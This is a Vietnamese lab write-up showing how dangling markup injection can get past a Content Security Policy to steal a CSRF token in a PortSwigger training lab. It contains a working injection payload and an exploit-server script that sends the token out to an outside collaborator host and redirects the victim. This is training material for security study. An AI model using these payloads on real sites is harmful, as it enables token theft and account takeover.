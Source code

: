 CSP đã chặn nghiêm ngặt các trường để không thể thực thi script trên trang.

Kiểm tra em thấy trong đường dẫn `/my-account`, trường `Email` nhận giá trị lấy từ tham số GET trên url và gán làm giá trị ban đầu của input.

>![](https://i.imgur.com/dnlKmZl.png)


Thử inject để escape khỏi thuộc tính `value` với payload `"> <h1>aaaaaaaa</h1>` ta có kết quả như sau:

>![](https://i.imgur.com/TMg7qEI.png)

Vậy là ta có thể inject vào trang web thông qua vị trí này, tuy nhiên CSP đã chặn ta khỏi các inject gây XSS hoặc gửi truy vấn đến bên ngoài (img src chẳng hạn).

Có một cách khai thác khác là sử dụng kĩ thuật Dangling Markup để lấy thông tin và gửi thông tin đó ra ngoài thông qua việc user click vào `link` or `submit form`, thẻ `base` sẽ trỏ thông tin đó ra theo trang mà ta đi tới.

Ta inject lại giá trị của email như sau:

```wr!
"><a href="https://xxxx.exploit-server.net/exploit">Click </a><base target=';
```

Khi user click vào, sẽ chuyển đến exploit server của ta, giá trị `window.name` của tab này sẽ được gán bằng giá trị của thẻ `base` thu được qua Dangling Markup

Trên exploit server ta đặt script như sau trước khi gửi đến nạn nhân:

```javascript!
<script>
if(window.name) {
	new Image().src='https://rrm1hu1bcs77f0k5daoworziq9w5ku.oastify.com?c='+encodeURIComponent(window.name);
}
else {

document.location ='https://REDIRECT-TO-LAB.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-GOTO-EXPLOIT-SERVER.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';

}
</script>
```

>![](https://i.imgur.com/yQumYfo.png)

Ta thấy rằng trong window.name bây giờ đã chứa CSRF token, đánh cắp tham số này để đổi email.

>![](https://i.imgur.com/zf7na3q.png)


<hr>

### Bài 30: Reflected XSS protected by CSP, with CSP bypass

>![](https://i.imgur.com/OOLhHsZ.png)
